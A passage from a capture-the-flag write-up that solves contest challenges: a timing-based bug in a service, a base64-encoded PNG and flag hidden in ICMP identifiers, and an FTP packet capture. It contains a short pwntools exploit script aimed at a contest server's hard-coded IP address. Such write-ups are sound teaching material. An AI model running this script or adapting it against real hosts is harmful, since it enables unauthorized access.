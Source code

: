 But in read function. Third arg uses **count** instead of count2. **count** must be a number between 7 and 9 to input **s** to **"rainbow"**. To make **count** to 7 ~ 9, sleep 7\*4 ~ 9\*4 seconds after making a thread.

exploit code :  [ex.py](https://github.com/snwox/Writeup/blob/master/CTF/2020/%EC%A0%95%EB%B3%B4%EB%B3%B4%ED%98%B8%EC%98%AC%EB%A6%BC%ED%94%BC%EC%95%84%EB%93%9C/Q2/ex.py)
```python
from pwn import *
r=remote("1.209.148.228",7677)
r.sendline("1")
sleep(25)
r.sendline("4")
r.sendline("10")
r.sendline("rainbow")
r.sendline("6")
r.interactive()
```
But In Server, sleep function does not sleep exactly 4 seconds. So you must sleep about 28-3 ~ 36-3
## Q5 | 100 | zip, HxD hurts em, I was a picture
output file and a zip file with a password were given.
```
ODkgNTAgNEUgNDcgMEQgMEEg~~~~~~ODI=
```
The file size is 0xEEF. The file name was **'HxD hurts me, I was a picture'**. I have seen three bytes repeated, and I have inferred the **RGB** value, but 0xEEF is not divided by three. It ends with = at the end of the file. So I guessed **base64 encoding**
```
89 50 4E 47 ~~~ 49 45 4E 44 AE 42 60 82
```
I decoded that output file, It starts with **‰PNG** and ends with **IEND®B`‚**. It is a PNG file.<br>
![사진](https://github.com/snwox/Writeup/blob/master/CTF/2020/%EC%A0%95%EB%B3%B4%EB%B3%B4%ED%98%B8%EC%98%AC%EB%A6%BC%ED%94%BC%EC%95%84%EB%93%9C/Q5/picture.png)
>zip password
<br>
There are packet file and png file.
![사진](https://github.com/snwox/Writeup/blob/master/CTF/2020/%EC%A0%95%EB%B3%B4%EB%B3%B4%ED%98%B8%EC%98%AC%EB%A6%BC%ED%94%BC%EC%95%84%EB%93%9C/Q5/I%20have%20a%20flag/we%20found%20something.png)
<br>
Hmm... I should see the identifier in ICMP packets
![사진](https://github.com/snwox/Writeup/blob/master/CTF/2020/%EC%A0%95%EB%B3%B4%EB%B3%B4%ED%98%B8%EC%98%AC%EB%A6%BC%ED%94%BC%EC%95%84%EB%93%9C/res/Q5_1.JPG)
<br>
Those packets include a flag.
![사진](https://github.com/snwox/Writeup/blob/master/CTF/2020/%EC%A0%95%EB%B3%B4%EB%B3%B4%ED%98%B8%EC%98%AC%EB%A6%BC%ED%94%BC%EC%95%84%EB%93%9C/res/Q5-1.png)
![사진](https://github.com/snwox/Writeup/blob/master/CTF/2020/%EC%A0%95%EB%B3%B4%EB%B3%B4%ED%98%B8%EC%98%AC%EB%A6%BC%ED%94%BC%EC%95%84%EB%93%9C/res/Q5-2.png)
![사진](https://github.com/snwox/Writeup/blob/master/CTF/2020/%EC%A0%95%EB%B3%B4%EB%B3%B4%ED%98%B8%EC%98%AC%EB%A6%BC%ED%94%BC%EC%95%84%EB%93%9C/res/Q5-3.png)
~
![사진](https://github.com/snwox/Writeup/blob/master/CTF/2020/%EC%A0%95%EB%B3%B4%EB%B3%B4%ED%98%B8%EC%98%AC%EB%A6%BC%ED%94%BC%EC%95%84%EB%93%9C/res/Q5-END.png)
>flag:{N0_P@!n_N0_g@!N}
## Q6 | 100 | packet file
![사진](https://github.com/snwox/Writeup/blob/master/CTF/2020/%EC%A0%95%EB%B3%B4%EB%B3%B4%ED%98%B8%EC%98%AC%EB%A6%BC%ED%94%BC%EC%95%84%EB%93%9C/res/q6-1.JPG)
<br>
In the packet file, It sends zip file to the FTP protocol. Right-click -> Follow -> TCP stream
![사진](https://github.com/snwox/Writeup/blob/master/CTF/2020/%EC%A0%95%EB%B3%B4%EB%B3%B4%ED%98%B8%EC%98%AC%EB%A6%BC%ED%94%BC%EC%95%84%EB%93%9C/res/q6-2.png)
<br> 
Save as a zip file. Then analyze client.exe file. The exefile plays rock-paper-scissors with the server. I should win 1000 times.... but I can't 
![사진](https://github.com/snwox/Writeup/blob/master/CTF/2020/%EC%A0%95%EB%B3%B4%EB%B3%B4%ED%98%B8%EC%98%AC%EB%A6%BC%ED%94%BC%EC%95%84%EB%93%9C/res/q6-3.JPG)
<br>